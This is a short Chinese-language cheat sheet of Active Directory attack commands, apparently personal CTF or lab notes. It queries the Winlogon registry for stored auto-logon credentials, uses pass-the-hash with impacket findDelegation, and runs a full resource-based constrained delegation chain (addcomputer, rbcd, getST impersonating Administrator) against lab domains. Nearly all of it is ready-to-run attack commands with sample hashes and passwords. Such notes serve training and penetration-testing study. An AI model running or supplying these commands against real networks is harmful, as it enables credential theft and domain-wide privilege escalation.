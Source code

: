 ```bash
query user # 查看在线用户
```

```bash
# 尝试抓取自动登录凭据
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

### 委派关系检测

[findDelegation.py](F:\ctfTools\impacket\examples\findDelegation.py)

```bash
python3 findDelegation.py xiaorang.lab/'WIN19$' -hashes :2c05ad434d747b203a57565194891b38 -dc-ip 172.22.4.7
```

### RBCD

[域渗透之委派攻击详解（非约束委派_约束委派_资源委派）-腾讯云开发者社区-腾讯云](F:\LocalCTF\域渗透之委派攻击详解（非约束委派_约束委派_资源委派）-腾讯云开发者社区-腾讯云.html)

[域渗透之委派攻击全集 - 知乎](F:\LocalCTF\域渗透之委派攻击全集 - 知乎.html)

[基于资源的约束委派 (RBCD) 利用总结 - X1r0z Blog](F:\LocalCTF\基于资源的约束委派 (RBCD) 利用总结 - X1r0z Blog.html)

#### 基于资源的约束委派攻击本地提权

查询机器用户被哪些账户加入到域内，会显示相应的SID

```bash
AdFind.exe -h 10.150.127.166 -b "DC=haishi,DC=com" -f "objectClass=computer" mS-DS-CreatorSID
```

通过`sid2user`找到对应的用户

```text
sid2user.exe \\10.150.127.166 5 21 1400638014 602433399 2258725660 1146
```

创建一个机器用户

```bash
proxychains impacket-addcomputer xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'
```

修改服务资源 msDS-AllowedToActOnBehalfOfOtherIdentity 属性

```bash
proxychains impacket-rbcd xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'TEST$'
```

请求ST

```bash
proxychains impacket-getST xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
```
